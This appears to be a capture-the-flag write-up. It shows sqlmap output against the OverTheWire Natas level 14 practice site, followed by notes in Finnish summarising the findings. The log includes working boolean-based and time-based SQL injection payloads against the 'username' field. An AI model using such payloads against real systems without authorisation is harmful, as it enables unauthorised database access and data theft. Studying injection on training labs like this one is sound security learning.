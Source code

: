 ```
[12:16:04] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[12:16:04] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:16:04] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[12:16:04] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:16:04] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[12:16:04] [INFO] target URL appears to have 2 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[12:16:05] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[12:16:06] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[12:16:07] [INFO] testing 'MySQL UNION query (73) - 21 to 40 columns'
[12:16:08] [INFO] testing 'MySQL UNION query (73) - 41 to 60 columns'
[12:16:09] [INFO] testing 'MySQL UNION query (73) - 61 to 80 columns'
[12:16:10] [INFO] testing 'MySQL UNION query (73) - 81 to 100 columns'
[12:16:10] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[12:16:10] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 278 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: username=admin" OR NOT 9188=9188#&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin" AND (SELECT 2142 FROM (SELECT(SLEEP(5)))vnvd)-- Cgqh&password=admin
---
[12:16:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[12:16:11] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas14.natas.labs.overthewire.org'
[12:16:11] [WARNING] your sqlmap version is outdated

[*] ending @ 12:16:11 /2025-05-17/

```

Eli tästä ylemmästä tuloksesta ainakin kertoi havaintojen ajosta:
- injektiopiste: POST parametri username on haavoittuva SQL-injektiolle
- Injketiotyyppi:
- tietokanta versio on: `MySQL >= 5.0.12`
- palvelin versio: Apache 2.4.58 (Linux Ubuntu)
- tallennettu tiedosto sijaitsee: `~/.local/share/sqlmap/output/natas14.natas.labs.overthewire.org/`
